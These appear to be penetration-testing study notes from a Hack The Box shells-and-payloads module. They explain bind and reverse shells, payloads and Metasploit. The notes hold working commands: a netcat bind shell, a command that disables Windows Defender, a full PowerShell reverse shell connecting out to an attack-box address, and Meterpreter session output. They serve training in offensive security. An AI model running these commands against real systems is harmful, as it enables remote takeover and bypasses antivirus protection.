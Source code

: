 ## [[generic-methodologies-and-resources/CPTS/6-Shells & Payloads/Introduction|Introduction]]
## Shell Basics
### Anatomy of a Shell
Every operating system has a shell, and to interact with it, we must use an application known as a `terminal emulator` ([Windows Terminal](https://github.com/microsoft/terminal),[cmder](https://cmder.app),[xterm](https://invisible-island.net/xterm/)..)
a **Command Language Interpreters**  is a program working to interpret the instructions provided by the user and issue the tasks to the operating system for processing, to view what shell language is in use `env | grep $SHELL` (SHELL=/usr/bin/zsh)
### Bind Shells
With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).
![bind shell](https://academy.hackthebox.com/storage/modules/115/bindshell.png)

- Admins typically configure strict incoming firewall rules and NAT (with PAT implementation) on the edge of the network (public-facing), so we would need to be on the internal network already.
- Operating system firewalls (on Windows & Linux) will likely block most incoming connections that aren't associated with trusted network-based applications.

**Hands-on With A Simple BInd Shell in Linux:**
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f  # Server - Binding a Bash shell to the TCP session

nc -nv 10.129.41.200 7777 # Client - Connecting to bind shell on target
```
### Reverse Shells
With a `reverse shell`, the attack box will have a listener running, and the target will need to initiate the connection.
![reverse_shell](https://academy.hackthebox.com/storage/modules/115/reverseshell.png)
**Hands-on With A Simple Reverse Shell in Windows:**
==first we need to disable the windows defender antivirus (AV)==
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true # run in administrative powersehll console
```

```powershell
#  Client (target)
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

#  Server (attack box)
sudo nc -lvnp 443
```
## Payloads
the payload is the command and/or code that exploits the vulnerability in an OS and/or application
### Automating Payloads & Delivery with Metasploit
```bash
```shell-session
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter > 
```
> from the logged info we can see that **powershell** is the command language interpreter is used to establish a system shell session with the target
### Crafting Payloads with MSFvenom
=> check [[msfvenom|here]]
## Windows Shells
check =>  [[Windows Shells]] 
## Infiltrating Unix/Linux
When considering how we will establish a shell session on a Unix/Linux system, we will benefit from considering the following:
- What distribution of Linux is the system running?
- What shell & programming languages exist on the system?
- What function is the system serving for the network environment it is on?
- What application is the system hosting?
- Are there any known vulnerabilities?
check => [[linux| NIX Shells]]
##  Web Shells

A `web shell` is a browser-based shell session we can use to interact with the underlying operating system of a web server
 see more =>  [[web shells| Web Shells]]